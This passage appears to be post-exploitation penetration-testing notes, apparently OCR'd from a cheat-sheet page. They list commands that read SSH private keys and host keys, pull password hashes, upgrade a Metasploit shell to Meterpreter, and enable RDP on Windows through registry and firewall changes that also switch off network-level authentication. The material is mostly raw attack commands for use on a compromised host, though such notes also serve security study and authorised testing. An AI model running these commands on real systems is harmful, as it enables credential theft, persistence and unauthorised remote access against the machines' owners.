     -   check if the pc is duelhomed machine which means it has more than one network adapter maybe each one is attached to a diff network

    -   check for ssh keys private/public keys to be able to access after that with ssh keys

        -   cat \~/.ssh/authorized\_keys

        -   cat \~/.ssh/identity.pub

        -   cat \~/.ssh/identity

        -   cat \~/.ssh/id\_rsa.pub

        -   cat \~/.ssh/id\_rsa

        -   cat \~/.ssh/id\_dsa.pub

        -   cat \~/.ssh/id\_dsa

        -   cat /etc/ssh/ssh\_config

        -   cat /etc/ssh/sshd\_config

        -   cat /etc/ssh/ssh\_host\_dsa\_key.pub

        -   cat /etc/ssh/ssh\_host\_dsa\_key

        -   cat /etc/ssh/ssh\_host\_rsa\_key.pub

        -   cat /etc/ssh/ssh\_host\_rsa\_key

        -   cat /etc/ssh/ssh\_host\_key.pub

        -   cat /etc/ssh/ssh\_host\_key

        -   find / -name authorized\_keys 2\> /dev/null

        -   find / -name id\_rsa 2\> /dev/null

    -   pull the hashes and passwords from the target machine

    -   **Change from shell to meterpreter**

        -   background our opened shell session

        -   use post/multi/manage/shell\_to\_meterpreter

        -   set session \<nb\>

        -   run

    -   **Enable RDP on windows**

        -   reg add "HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server" /v fDenyTSConnections /t REG\_DWORD /d 0 /f   or (/d 0x00000000)

        -   netsh firewall set service remoteadmin enable

        -   netsh firewall set service remotedesktop enable

        -   If you get this error: \"ERROR: CredSSP: Initialize failed, do you have correct kerberos tgt initialized ? Failed to connect, CredSSP required by server.\"\"

        -   Add this reg key: reg add \"HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server\\WinStations\\RDP-Tcp\" /v UserAuthentication /t REG\_DWORD /d 0 /f
